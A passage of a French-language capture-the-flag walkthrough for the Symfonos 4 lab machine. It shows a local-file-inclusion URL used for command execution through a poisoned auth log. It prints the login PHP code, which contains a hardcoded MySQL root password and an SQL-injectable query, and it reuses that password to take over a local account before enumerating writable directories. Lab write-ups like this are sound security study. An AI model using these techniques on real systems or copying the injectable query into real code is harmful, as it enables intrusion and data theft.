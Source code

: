 On peut désormais exécuter des commandes de cett façon :

http://192.168.56.115/sea.php?file=../../../../var/log/auth&c=whoami

Une fois un shell plus évolué obtenu je vais chercher le code PHP du formulaire de connexion :

```php
<?php
   define('DB_USERNAME', 'root');
   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
   $db = new PDO("mysql:host=localhost:3306;dbname=db", DB_USERNAME,DB_PASSWORD);

   session_start();

   if($_SERVER["REQUEST_METHOD"] == "POST") {
   $username = $_POST["username"];
   $pwd = hash('sha256',$_POST["password"]);
   //if (!$db) die ($error);
   $statement = $db->prepare("Select * from users where username='".$username."' and pwd='".$pwd."'");
   $statement->execute();
   $results = $statement->fetch(PDO::FETCH_ASSOC);
   if (isset($results["pwd"])){
       $_SESSION['logged_in'] = $username;
       header("Location: sea.php");
   } else {
        $_SESSION["logged_in"] = false;
        sleep(2); // Don't brute force :(
        echo "<br /><center>Incorrect login</center>";
   } }
?>
```

C'est la bonne pioche car le mot de passe root du mysql permet de se connecter au compte local `poseidon`.

En cherchant les dossiers écrivables pour cet utilisateur je remarque un dossier inhabituel :

```bash
poseidon@symfonos4:~$ find / -type d -writable 2> /dev/null | grep -v /proc | grep -v /sys
/run/user/1000
/run/user/1000/gnupg
/run/lock
/home/poseidon
/home/poseidon/.gnupg
/home/poseidon/.gnupg/private-keys-v1.d
/opt/code
/var/lib/php/sessions
/var/tmp
/dev/mqueue
/dev/shm
/tmp
poseidon@symfonos4:~$ ls -al /opt/code/
total 28
drwxr-xrwx 4 root root 4096 Aug 19  2019 .
drwxr-xr-x 3 root root 4096 Aug 18  2019 ..
-rw-r--r-- 1 root root  942 Aug 19  2019 app.py
-rw-r--r-- 1 root root 1536 Aug 19  2019 app.pyc
drwxr-xr-x 4 root root 4096 Aug 19  2019 static
drwxr-xr-x 2 root root 4096 Aug 19  2019 templates
-rw-r--r-- 1 root root  215 Aug 19  2019 wsgi.pyc
poseidon@symfonos4:~$ ss -lntp
State                       Recv-Q                       Send-Q                                             Local Address:Port                                             Peer Address:Port                      
```